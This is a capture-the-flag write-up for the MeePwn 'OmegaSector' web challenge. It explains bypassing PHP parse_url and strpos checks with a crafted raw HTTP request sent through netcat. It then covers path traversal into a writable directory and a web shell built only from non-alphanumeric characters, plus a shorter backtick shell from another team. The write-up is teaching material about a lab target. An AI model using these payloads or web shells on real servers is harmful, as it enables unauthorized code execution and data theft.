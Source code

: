 # OmegaSector &ndash; write-up by @terjanq

## Task Description
>Wtf !? I just want to go to OmegaSector but there is weird authentication here, please help me  
>http://138.68.228.12/

## Part1
The very first part of the challenge is about getting the source code of the [index.php] file. In the source of the website, we could find the URL `http://138.68.228.12/?is_debug=1` which exactly does that. 

The next step is to bypass the following countermeasures to gain the full control of the `$whoareyou` variable.

```php
$remote=$_SERVER['REQUEST_URI']; 

if(strpos(urldecode($remote),'..')) 
    mapl_die(); 

if(!parse_url($remote, PHP_URL_HOST))
    $remote='http://'.$_SERVER['REMOTE_ADDR'].$_SERVER['REQUEST_URI']; 

$whoareyou=parse_url($remote, PHP_URL_HOST); 
```

If we make any request by the web browser the `$_SERVER['REQUEST_URI']` variable will start with `/?` or `/index.php?` or `/index.php/` and so on. But there is always `slash` character at the beginning. So it's a tough task to get the custom hostname in here.  
At this stage, we can conclude that it is something with `raw HTTP requests`.  

Imagine the request below:
```
GET ..@alien.somewhere.meepwn.team/..//index.php?alien=%40!%23%24%40!%40%40 HTTP/1.1
Host: 138.68.228.12
Connection: close

```

In this payload I managed to cheat the `apache2`, the `parse_url` and the `strpos(urldecode($remote),'..')` at one shoot!

`Apache2` will move into a not existing directory `..@alien.somewhere.meepwn.team` then will go back one level down `../` back to the `root` folder. It is important that there are two `slashes` otherwise it won't work. I suppose it is because it just cleverly removes `..@alien.somewhere.meepwn.team/../` from the file path. 

My first try after I discovered that we could travel over directories like that was to create `..://alien.somewhere.meepwn.team/../..//index.php` so the `parse_url` evaluates to:

```
Array
(
    [scheme] => ..
    [host] => alien.somewhere.meepwn.team
    [path] => /../..//index.php
)
```

but injecting the `:` in the `directory name` caused the `apache2` to crash. Perhaps it is due to another solution which I will link to at the end of the write-up.

The `$_SERVER['REQUEST_URI']` variable has obviously `..@alien.somewhere.meepwn.team/..//index.php?alien=%40!%23%24%40!%40%40` value. 

Since `strpos(urldecode($remote),'..')` is `0` it evaluetes to `False` and thus the `mapl` won't `die`.

Also `parse_url($remote, PHP_URL_HOST)` won't return the hostname and the `http://127.0.0.1` will be prepended into `$remote` so the whole variable looks like `http://127.0.1..@alien.somewhere.meepwn.team/..//index.php?alien=%40!%23%24%40!%40%40`. 

Now `parse_url` returns

```
Array
(
    [scheme] => http
    [host] => alien.somewhere.meepwn.team
    [user] => 127.0.0.1..
    [path] => /..//index.php
    [query] => alien=%40!%23%24%40!%40%40
)
```

Bingo! We have a complete control over the `$whoareyou` variable.

We pass a few *ifs* 
```
if($whoareyou==="alien.somewhere.meepwn.team")
    ⋮
    if($_GET['alien']==='@!#$@!@@')
        ⋮
        $_SESSION['auth']=hash('sha256', 'alien'.$salt); 
            exit(header( "Location: alien_sector.php" )); 

```

and get redirected to another stage. 

I used this `bash script` in order to get the `PHPSESSID` with `auth` set
```bash
echo -ne 'GET ..@alien.somewhere.meepwn.team/..//index.php?alien=%40!%23%24%40!%40%40 HTTP/1.1\r\nHost: 138.68.228.12\r\nConnection: close\r\n\r\n' | nc 138.68.228.12 80
```
There are also similar *ifs* for `omega_sector.php` but actualy it had no any use in this challange. 

## Part2
After having the right `PHPSESSID` in the cookies we get the following form on the `alien_sector.php`:
```xml
<form action="alien_sector.php" method="POST">
<textarea class="shadow" id="main" name="message"></textarea>
<input type='text' name='type' value='alien' hidden />
<button type="submit" id="button"><div class="alien_language">Save</div></button>
</form>
```
If we send a message with `non alphanumeric characters` we see `Saved in alien_message/fc11ce87435398abd6a28dd622639988.alien`. In opposition on the `omega_sector` where we only can use `alphanumeric characters`. We can abuse the `type` attribute and we can send the request `type=/../super_secret_shell.php`.  
The serious restriction was that messages could be at least `40 characters` long.

At first, I thought that it is something like `race condition` that two scripts write into one file at the same time resulting in mixed content but it didn't work.

Then, inspired by some ideas found on the internet I have created the `reverse shell script` using only `non-alpha chars`: 
```php
<?=$_='$<>/'^'{{{{';${$_}[_](${$_}[__]);

// $_= '$<>/' ^ '{{{{' ----> $_ = '_GET'
// ${_GET}[_](${_GET})[__];
// final <?=$_GET[_]($_GET[__])
```

And then after visiting the URL `http://138.68.228.12/alien_message/super_secret_shell.php?_=system&__=rgrep MeePwn /var/www/` we see the flag: **MeePwnCTF{__133-221-333-123-111___}**


## Alternative solution
This is the solution posted by `P4Team`.

```
GET http://human.ludibrium.meepwn.team?human=Yes HTTP/1.0
Host: human.ludibrium.meepwn.team
```

This tricky payload takes an advantage of `default` in `virtual hosts` set to `/var/www/html` so any non-existent domain will point there. Also, it uses the alternative way of making the request using `GET FULL_URL` syntax. 

```php
<?=`/???/??? ../??????.??? > ===`
```

Even more tricky here using only 33 characters... It calls for shell via `` `...` `` syntax and then uses `shell wildcards` so `/???/???` will match `/bin/cat` and `../??????.???` matches `../secret.php`. Finally, it writes the result to `===` file. Amazing.




[index.php]:<./index.php>
